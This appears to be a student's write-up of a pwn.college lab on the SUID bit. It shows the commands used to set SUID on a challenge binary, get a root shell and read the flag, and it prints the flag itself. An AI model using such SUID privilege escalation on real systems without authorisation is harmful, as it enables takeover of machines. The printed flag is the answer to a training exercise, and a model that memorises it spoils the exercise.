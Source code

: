 # SUID Bit
## Introduction
Some Programs may be associated with SUID(set user id) Bits, which change the user to the owner of the file, upon execution, these can also be  safety vulnerabilities
## Approach
- I set a SUID ID by executing `chmod u+s /challenge/getroot`
- I run `/challenge/getroot` opening a root subshell in the process
- I retrieve the flag using `cat /flag`
## Code
```bash
Connected!
hacker@permissions~the-suid-bit:~$ chmod u+s /challenge/getroot
hacker@permissions~the-suid-bit:~$ /challenge/getroot
SUCCESS! You have set the suid bit on this program, and it is running as root!
Here is your shell...
root@permissions~the-suid-bit:~# cat /flag
pwn.college{ICvgIVJM5XKIyRPq1PNXHU6mVCM.dNTM2QDLzgTN0czW}
```
